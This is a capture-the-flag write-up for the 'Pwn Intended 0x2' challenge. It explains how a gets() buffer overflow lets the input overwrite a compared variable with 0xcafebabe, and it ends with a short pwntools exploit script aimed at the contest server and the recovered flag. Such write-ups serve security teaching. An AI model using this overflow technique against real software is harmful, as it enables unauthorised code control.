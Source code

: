 # Pwn Intended 0x2
Sadly, we can't just smash the keyboard. Let's check what protections are enabled:

![checksec](images/checksec-2.png)

NX is enabled, so unfortunately no shellcode, but no other protections. Let's perhaps decompile it in GHidra:

![ghidra](images/ghidra-2.png)

So we have a 44-byte-long buffer storing our input. Our input is read by `gets()`, a clear buffer overflow vulnerability. Interestingly, the program seems to also return the flag if the `if` condition is met. I've known GHidra to make (big) mistakes with numbers, so I check the disassembly in radare2.

![radare2](images/r2-2.png)

Thanks to radare2's colour scheme, the true comparison is to `0xcafebabe`.

## Exploitation
![variables](images/variables-2.png)

As we can see, the buffer our input is stored in is lower down the stack to the variable that is compared, so if we overflow the buffer we will overflow *into the other variable*. From the decompilation we know the buffer is 44 bytes long, so we need 44 bytes of padding before we reach the checked variable and write `0xcafebabe`.

```python
from pwn import *

p = remote('chall.csivit.com', 30007)

payload = b'A' * 44
payload += p32(0xcafebabe)

p.sendline(payload)

print(p.clean().decode())
```

**csictf{c4n_y0u_re4lly_telep0rt?}**